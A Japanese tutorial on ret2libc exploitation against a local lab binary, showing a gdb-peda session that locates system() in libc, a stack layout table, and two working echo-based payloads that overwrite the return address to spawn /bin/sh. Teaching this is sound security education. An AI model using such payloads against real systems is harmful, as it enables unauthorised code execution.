 # Return to libc(ret2libc)

## 前提
ここで書かれた内容を悪用してはいけません. あくまで攻撃手法の知識共有として残します.

## 本題
解析したソースコードはret2pltと同じ.

```
 gdb -q bof3
Reading symbols from bof3...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x80484a0
gdb-peda$ r
Starting program: /home/vagrant/pwn/book4b_pwn/step4/stack-bof/bof3/bof3
[----------------------------------registers-----------------------------------]
EAX: 0xf7fbadd8 --> 0xffffd34c --> 0xffffd4bb ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
EBX: 0x0
ECX: 0xe773d938
EDX: 0xffffd2d4 --> 0x0
ESI: 0xf7fb9000 --> 0x1d7d6c
EDI: 0x0
EBP: 0xffffd2a8 --> 0x0
ESP: 0xffffd2a8 --> 0x0
EIP: 0x80484a0 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048498 <frame_dummy+40>:	jmp    0x8048410 <register_tm_clones>
   0x804849d <main>:	push   ebp
   0x804849e <main+1>:	mov    ebp,esp
=> 0x80484a0 <main+3>:	and    esp,0xfffffff0
   0x80484a3 <main+6>:	sub    esp,0x30
   0x80484a6 <main+9>:	mov    DWORD PTR [esp+0x4],0x804a060
   0x80484ae <main+17>:	mov    DWORD PTR [esp],0x8048590
   0x80484b5 <main+24>:	call   0x8048350 <printf@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffd2a8 --> 0x0
0004| 0xffffd2ac --> 0xf7df9e81 (<__libc_start_main+241>:	add    esp,0x10)
0008| 0xffffd2b0 --> 0x1
0012| 0xffffd2b4 --> 0xffffd344 --> 0xffffd484 ("/home/vagrant/pwn/book4b_pwn/step4/stack-bof/bof3/bof3")
0016| 0xffffd2b8 --> 0xffffd34c --> 0xffffd4bb ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0020| 0xffffd2bc --> 0xffffd2d4 --> 0x0
0024| 0xffffd2c0 --> 0x1
0028| 0xffffd2c4 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080484a0 in main ()
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x08049000 r-xp	/home/vagrant/pwn/book4b_pwn/step4/stack-bof/bof3/bof3
0x08049000 0x0804a000 r--p	/home/vagrant/pwn/book4b_pwn/step4/stack-bof/bof3/bof3
0x0804a000 0x0804b000 rw-p	/home/vagrant/pwn/book4b_pwn/step4/stack-bof/bof3/bof3
0xf7de1000 0xf7fb6000 r-xp	/lib/i386-linux-gnu/libc-2.27.so
0xf7fb6000 0xf7fb7000 ---p	/lib/i386-linux-gnu/libc-2.27.so
0xf7fb7000 0xf7fb9000 r--p	/lib/i386-linux-gnu/libc-2.27.so
0xf7fb9000 0xf7fba000 rw-p	/lib/i386-linux-gnu/libc-2.27.so
0xf7fba000 0xf7fbd000 rw-p	mapped
0xf7fcf000 0xf7fd1000 rw-p	mapped
0xf7fd1000 0xf7fd4000 r--p	[vvar]
0xf7fd4000 0xf7fd6000 r-xp	[vdso]
0xf7fd6000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.27.so
0xf7ffc000 0xf7ffd000 r--p	/lib/i386-linux-gnu/ld-2.27.so
0xf7ffd000 0xf7ffe000 rw-p	/lib/i386-linux-gnu/ld-2.27.so
0xfffdd000 0xffffe000 rw-p	[stack]
gdb-peda$ print system
$4 = {<text variable, no debug info>} 0xf7e1e200 <system>
```
`system`関数は`0xf7e1e200`に存在し, `0xf7de1000 0xf7fb6000 r-xp	/lib/i386-linux-gnu/libc-2.27.so`の領域にあることが分かります.

| | |
| --- | --- |
| 下位アドレス(0x00000000) | |
| ↓ | |
|関数アドレス(=リターンアドレス) | 0xf7e1e200 (system) |
|prinf呼び出し後のリターンアドレス(`saved_ebp`) | 0x42424242(ダミー) |
|引数1 | 0x0804a060(buffer変数) |
| ↓ | |
|上位アドレス(0xffffffff) | |

buffer変数には入力した文字列がコピーされるが, うまくsystem関数でコマンドとして実行できるような文字列である必要がある.
方針としては

1. system関数が受け取る文字列はNULLバイトで終端されていなければならない事を利用し, コマンド文字列の直後にNULLを挿入する
2. systemがシェルのコマンドとして実行されるのを利用して、不要な文字列をコメントアウトする.

2つある.

buffer変数の中身とlibcのアドレスを利用して`/bin/sh`を実行する攻撃文字列を実行した例が以下の通り.
```
$ (echo -e '/bin/sh\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\xe2\xe1\xf7BBBB\x60\xa0\x04\x08'; cat)| ./bof3
buffer: 0x804a060
ls
 bof3   bof3.c	 peda-session-bof3.txt	's main'
exit

Segmentation fault (core dumped)
vagrant@bof3$ (echo -e '/bin/sh #AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\xe2\xe1\xf7BBBB\x60\xa0\x04\x08'; cat)| ./bof3
buffer: 0x804a060
ls
 bof3   bof3.c	 peda-session-bof3.txt	's main'

exit
```

`(echo -e '...'; cat) | ./bof3`として実行しているが、これは
**echoで指定した文字列を出力した後は, catを実行し標準入力から入力された物をbof3にパイプする**という意味である.